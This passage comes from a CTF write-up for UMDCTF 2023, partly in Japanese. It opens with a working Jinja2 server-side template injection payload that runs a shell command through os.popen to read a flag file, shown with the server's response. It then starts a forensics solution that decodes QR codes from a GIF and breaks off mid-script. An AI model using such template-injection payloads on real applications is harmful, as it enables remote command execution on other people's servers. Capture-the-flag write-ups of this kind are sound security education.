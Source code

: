 
calc={{ config.__class__.from_envvar.__globals__.import_string("os").popen("cat flag.txt").read() }}

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Cloud-Trace-Context: 5de4b10dcbd8accd9395c41818d67939;o=1
Date: Sun, 30 Apr 2023 11:37:10 GMT
Server: Google Frontend
Content-Length: 49

[ERROR] UMDCTF{wh3n_an_app_giv3s_u_ssti_p0p_calc}
</pre>

<br />

Flag: `UMDCTF{wh3n_an_app_giv3s_u_ssti_p0p_calc}`




<br /><br />
<br /><br />
## [Forensics]: Telekinetic Warfare (442 points)
- - -
### Challenge
> Someone was able to exfil a top secret document from our airgapped network! How???

Attachment:

- bruh.gif

<br />

### Solution

QRコードが含まれるアニメーションGIFです。

試しに最初のQRコードを読み取ってみると、Base64でエンコードした文字列が得られました。

10000以上のQRコードが含まれていますが、それらを読み取って一つにまとめてファイルに落とすだけなので、やることは明確です。

<br />

このチャレンジは、Mac PC上で解きました。

下準備。

<pre>
$ pip install pyzbar
$ brew install zbar
$ pip install Pillow
</pre>

<br />

書いたコード：

```Python
#!/usr/bin/env python3
#-*- coding:utf-8 -*-
import base64
from PIL import Image, ImageSequence
from pyzbar.pyzbar import decode

IMAGE_PATH = 'bruh.gif'

def get_frames(path):
    im = Image.open(path)
    return (frame.copy() for frame in ImageSequence.Iterator(im))

outfile = open("brush.pdf", "wb")
```